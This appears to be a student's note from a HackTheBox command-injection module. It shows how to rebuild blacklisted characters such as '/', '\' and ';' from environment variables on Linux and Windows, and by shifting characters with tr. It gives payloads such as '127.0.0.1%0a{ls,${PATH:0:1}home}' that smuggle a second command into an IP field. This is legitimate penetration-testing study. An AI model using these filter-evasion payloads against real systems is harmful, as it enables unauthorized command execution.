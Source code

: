 ```yaml
---
title: c-Bypass Other Blacklisted Characters
draft: false
tags:
---
```

`/` and `\` is also blacklisted very often.

However these are needed to specify directories in Linux or Windows.

## Linux

We can use **Linux Environment Variables** and specify the `start` and `length` of our string to exactly match the character we want.

For example, `{$PATH}` usually looks like something below:

```shell-session
jadu101@htb[/htb]$ echo ${PATH}

/usr/local/bin:/usr/bin:/bin:/usr/games
```

We can use this to specify a character like `/` as such:

```shell-session
jadu101@htb[/htb]$ echo ${PATH:0:1}

/
```

We can use the above technique to get a semi-colon character as well:

```shell-session
jadu101@htb[/htb]$ echo ${LS_COLORS:10:1}

;
```

Assuming we are pentesting web app from earlier articles (Host Checker), we can inject payload as such:

```
127.0.0.1${LS_COLORS:10:1}${IFS}
```


## Windows

To produce a slash in Windows Command Line, we can echo a Windows variable such as `%HOMEPATH%` and then specify a starting position, and finally specify a negative end position to get a slash.

- `%HOMEPATH%` - \Users\htb-student
- `~6` - `\htb-student`
- `-11` - `\`

So we the command below, I can get a slash:

```cmd-session
C:\htb> echo %HOMEPATH:~6,-11%

\
```

We can achieve the same variables in `Windows PowerShell` as such:

```powershell-session
PS C:\htb> $env:HOMEPATH[0]

\


PS C:\htb> $env:PROGRAMFILES[10]
PS C:\htb>
```

We can also use the `Get-ChildItem Env:` PowerShell command to print all environment variables and then pick one of them to produce a character we need. `Try to be creative and find different commands to produce similar characters.`

## Character Shifting

For example, the following Linux command shifts the character we pass by `1`. So, all we have to do is find the character in the ASCII table that is just before our needed character (we can get it with `man ascii`), then add it instead of `[` in the below example. This way, the last printed character would be the one we need:

```shell-session
jadu101@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
jadu101@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```


I used the command below to send `ls` command to `/home`:

`127.0.0.1%0a{ls,${PATH:0:1}home}`

